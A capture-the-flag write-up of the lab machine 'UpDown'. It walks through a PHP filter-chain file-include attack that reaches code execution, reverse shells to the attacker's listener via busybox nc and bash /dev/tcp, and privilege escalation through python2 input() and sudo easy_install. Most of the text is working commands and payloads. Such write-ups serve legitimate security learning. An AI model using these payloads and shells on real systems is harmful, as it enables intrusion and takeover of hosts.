

UpDown

Recon
Starting with nmap. Only two ports are open: SSH on 22 and Apache on 80. The site advertises itself in the footer as siteisup.htb, so that name goes into /etc/hosts.
[updown] nmap -Pn -v -T5 --min-rate 2000 -oN nmap -sSVC -p- 10.129.80.186
Nmap scan report for 10.129.80.186
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel[updown] curl -s http://10.129.80.186 | grep htb
<p class="copyright">siteisup.htb</p>
[updown] echo '10.129.80.186 siteisup.htb' | sudo tee -a /etc/hostsThe site is "Is my Website up ?", a form that takes a single URL and reports whether it is up, with an optional debug mode checkbox that echoes the full HTTP response back. That is a full-read SSRF: pointing it at my own HTTP listener returns my directory listing verbatim, confirming the server fetches and renders whatever I give it. The file://, data:// and ftp:// schemes are filtered ("Hacking attempt was detected !"), so it is useful for enumeration but not an obvious file read.
[updown] curl -s http://siteisup.htb/ -d 'site=http://10.10.14.241:8000&debug=1'
...
<textarea>HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.12.3
...
<li><a href="nmap">nmap</a></li>
<li><a href="notes">notes</a></li>
...Virtual-host fuzzing finds a second name, dev.siteisup.htb, which answers 403 Forbidden:
[updown] ffuf -u http://siteisup.htb -H 'Host: FUZZ.siteisup.htb' -mc all \
-w /usr/share/wordlists/SecLists/Discovery/DNS/shubs-subdomains.txt -fw 186
dev [Status: 403, Size: 281, Words: 20, Lines: 10]Content fuzzing of the main host turns up a /dev/ directory, and inside it the whole .git repository is served:
[updown] ffuf -u http://siteisup.htb/dev/FUZZ -mc all -t 100 \
-w /usr/share/wordlists/SecLists/Discovery/Web-Content/quickhits.txt -fw 23,20
.git/HEAD [Status: 200, Size: 21]
.git/index [Status: 200, Size: 521]
.git/logs/HEAD [Status: 200, Size: 179]
.git/ [Status: 200, Size: 2884]With the loose objects and packs exposed, git-dumper reconstructs the source of the dev application:
[updown] python3 git_dumper.py http://siteisup.htb/dev/ dev_repository
[-] Fetching .git recursively
...
[-] Running git checkout .
Updated 6 paths from the indexReading the dev source
Two files decide everything. The .htaccess explains the 403: the dev vhost is gated behind a custom request header, and only requests carrying Special-Dev: only4dev are allowed through.
[updown] cat dev_repository/.htaccess
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-HeaderAnd index.php is a textbook local file include: it takes the page parameter, appends .php, and include()s it. There is a blocklist, but it only forbids the strings bin, usr, home, var and etc, which blocks the obvious /etc/passwd style reads but does nothing against PHP wrappers.
<?php
define("DIRECTACCESS",false);
$page=$_GET['page'];
if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
include($_GET['page'] . ".php");
}else{
include("checker.php");
}
?>The sibling checker.php (the "beta" multi-site uploader) has a file-upload path, but its extension blocklist covers php, phtml, py, html and the archive formats, so it is a dead end. The include is the real primitive: an include() on a user-controlled path with no scheme filtering is a classic PHP filter chain target.
Exploitation
Filter chain to a code-execution primitive
Because include() will execute PHP that it reads through php://filter, I can use Synacktiv's generator to build an iconv chain that materialises arbitrary PHP bytes in memory and have include() run them. First I materialise <?php phpinfo();?> to read the environment. The request must carry the Special-Dev header, and the appended .php lands harmlessly on resource=php://temp (matched by prefix).
[updown] python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
GET /?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp HTTP/1.1
Host: dev.siteisup.htb
Special-Dev: only4devThe phpinfo() output confirms PHP 8.0.20, that HTTP_SPECIAL_DEV = only4dev, and most importantly the disable_functions list. It is long but incomplete:
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopenEvery obvious command sink is disabled, but proc_open is not on the list, and eval() is a language construct that cannot be disabled at all. That combination is enough.
proc_open through eval for RCE
I regenerate the chain, this time materialising <?php eval($_GET[1]);?>, and split the attack across three parameters:
page=the filter chain that produces theeval($_GET[1])gadget, giving an eval primitive.1=the PHP to eval:$p=proc_open($_GET[2],[1=>["pipe","w"],2=>["pipe","w"]],$pi);echo stream_get_contents($pi[1]);(URL-encoded), which runs$_GET[2]viaproc_openand prints stdout.2=the actual shell command.
[updown] python3 php_filter_chain_generator.py --chain '<?php eval($_GET[1]);?>'
[+] The following gadget chain will generate the following code : <?php eval($_GET[1]);?> (base64 value: PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4)
GET /?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&1=%24p%3Dproc_open%28%24_GET%5B2%5D%2C%5B1%3D%3E%5B%22pipe%22%2C%22w%22%5D%2C2%3D%3E%5B%22pipe%22%2C%22w%22%5D%5D%2C%24pi%29%3Becho%20stream_get_contents%28%24pi%5B1%5D%29%3B&2=id HTTP/1.1
Host: dev.siteisup.htb
Special-Dev: only4dev
HTTP/1.1 200 OK
Date: Fri, 09 Oct 2026 14:55:48 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 304
Content-Type: text/html; charset=UTF-8
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
uid=33(www-data) gid=33(www-data) groups=33(www-data)That is remote code execution as www-data. Swapping 2= for a busybox nc one-liner (one of the few callout tools left after fsockopen and friends are disabled) returns a shell:
&2=busybox+nc+10.10.14.241+35337+-e+sh
[updown] nc -lnvp 35337
Connection received on 10.129.80.186 46914
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)Privilege Escalation
www-data to developer: a SUID binary and python2 input()
pspy shows only an uninteresting root cron that wipes the uploads directory as www-data, so I look at SUID binaries. One is clearly custom:
www-data@updown:/tmp$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/home/developer/dev/siteisup
www-data@updown:/tmp$ strings /home/developer/dev/siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
setresgid
setresuid
system
getegid
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.pyThe symbol table is the whole story. setresuid and setresgid next to system mean the binary deliberately sets its real/effective IDs to the file owner before shelling out, so it is a SUID wrapper that runs a command as developer, not as the caller. The binary is SUID and group-executable by www-data (-rwsr-x--- developer www-data), which is exactly why www-data is allowed to invoke it. The only string that looks like a command is the Python call, and strings leaks both the interpreter (python2) and the script path. That script is group-readable by www-data, and the whole thing is four lines of logic:
www-data@updown:/tmp$ ls -la /home/developer/dev/siteisup_test.py
-rwxr-x--- 1 developer www-data 154 Jun 22 2022 /home/developer/dev/siteisup_test.py
www-data@updown:/tmp$ cat /home/developer/dev/siteisup_test.py
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
print "Website is up"
else:
print "Website is down"In python2, input() is equivalent to eval(raw_input()), so whatever I type is evaluated as Python. Since siteisup runs the script with developer's privileges, that is code execution as developer:
www-data@updown:/tmp$ /home/developer/dev/siteisup
Welcome to 'siteisup.htb' application
Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)I feed it a reverse shell, catch it as developer, then drop my public key into ~/.ssh/authorized_keys for a stable SSH session and the user flag:
Enter URL here:__import__('os').system('/bin/bash -c "sh -i >& /dev/tcp/10.10.14.241/4444 0>&1"')
[updown] nc -lnvp 4444
Connection received on 10.129.80.186 37668
$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
developer@updown:~$ cat user.txtdeveloper to root: sudo easy_install
developer may run easy_install as root with no password:
developer@updown:~$ sudo -l
User developer may run the following commands on localhost:
(ALL) NOPASSWD: /usr/local/bin/easy_installGTFOBins covers this exactly: easy_install executes the setup.py of whatever package it processes. I drop a setup.py that makes bash SUID, then run it as root:
developer@updown:~$ echo 'import os; os.system("chmod u+s /bin/bash")' > setup.py
developer@updown:~$ sudo easy_install .
Processing .
Running setup.py -q bdist_egg --dist-dir /home/developer/egg-dist-tmp-BIXOoG
developer@updown:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bashWith the SUID bit set, bash -p keeps the root euid and reads /root/root.txt.
developer@updown:~$ bash -p
bash-5.0# id
uid=1002(developer) gid=1002(developer) euid=0(root) groups=1002(developer)